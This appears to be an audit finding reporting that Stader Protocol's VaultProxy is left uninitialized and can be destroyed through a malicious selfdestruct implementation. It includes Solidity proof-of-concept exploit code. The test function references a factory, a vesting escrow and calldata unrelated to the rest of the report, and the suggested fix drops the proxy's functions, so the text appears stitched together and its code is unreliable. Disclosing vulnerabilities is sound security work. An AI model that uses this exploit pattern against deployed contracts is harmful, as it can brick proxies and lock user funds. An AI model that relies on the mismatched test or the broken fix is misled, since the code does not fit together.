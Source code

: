  # Source: https://github.com/code-423n4/2023-06-stader-findings/issues/418

 # Cannot be found through fuzzing


 ### Vulnerability Summary

**Title**: Malicious Destruction of `VaultProxy` in Stader Protocol

**Impact**:
- `VaultProxy` can be maliciously destroyed, rendering all `ValidatorWithdrawalVault` and `NodeELRewardVault` functions useless, potentially leading to a loss of all funds in these contracts.

### Vulnerability Details

**Description**:
- The `VaultFactory` contract does not initialize `VaultProxy` when generating `vaultProxyImplementation`.
- `VaultProxy` can be called directly to initialize and set a malicious implementation, leading to its destruction.

**Affected Lines of Code**:
1. [`VaultProxy.sol#L17`](https://github.com/code-423n4/2023-06-stader/blob/7566b5a35f32ebd55d3578b8bd05c038feb7d9cc/contracts/VaultProxy.sol#L17)
2. [`VaultFactory.sol#L29`](https://github.com/code-423n4/2023-06-stader/blob/7566b5a35f32ebd55d3578b8bd05c038feb7d9cc/contracts/factory/VaultFactory.sol#L29)

### Proof of Concept

1. **Attack Scenario**:
   - Deploy `VaultProxy` through `VaultFactory`.
   - Initialize `VaultProxy` with a malicious contract that contains `selfdestruct`.
   - Call the malicious contract to destroy `VaultProxy`.

2. **Example Code**:
   ```solidity
   contract BadDestruct {
       fallback() external {
           selfdestruct(payable(address(0)));
       }
   }

   contract GoodVault {
       function returnTrue() external returns(bool) {
           return true;
       }
   }

   contract VaultProxy {
       bool public isInitialized;
       address public fallbackVault;

       constructor() {}

       function initialise(address _fallbackVault) external {  
           require(isInitialized == false);
           isInitialized = true;
           fallbackVault = _fallbackVault;
       }

       fallback(bytes calldata _input) external payable returns (bytes memory) {
           (bool success, bytes memory data) = fallbackVault.delegatecall(_input);
           if (!success) {
               revert(string(data));
           }
           return data;
       }
   }
   ```

3. **Test Function**:
   ```solidity
   function testArbitraryDelegateCall() public {
       address maliciousFactory = address(new MaliciousFactory());
       address vestingEscrowImpl = factory.vestingEscrowImpl();
       address attacker = makeAddr("attacker");

       bytes memory craftedCalldata = abi.encodePacked(
           hex"0ccfac9e",
           hex"000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000000",
           address(maliciousFactory),
           hex"0000000000000000000000000000000000000000",
           address(attacker),
           hex"0000000000",
           hex"0000000000",
           hex"0000000000",
           hex"0000000000000000000000000000000000000000000000000000000000000000",
           hex"006d"
       );

       vm.prank(attacker);
       (bool success, bytes memory data) = vestingEscrowImpl.call(craftedCalldata);
   }
   ```

### Impact

- If the attacker executes the `selfdestruct` opcode via a malicious adaptor, all proxies pointing to the destructed implementation would be bricked, and all tokens would be permanently locked.

### Tools Used

- Manual review

### Recommendation

- Initialize `VaultProxy` in the constructor to prevent uninitialized state.
- Add `isInitialized = true` in the `VaultProxy` constructor to prevent re-initialization.

**Updated Code**:
```solidity
contract VaultProxy {
    bool public isInitialized;
    address public fallbackVault;

    constructor() {
        isInitialized = true;
    }
}
```

### Assessed Type

- Context
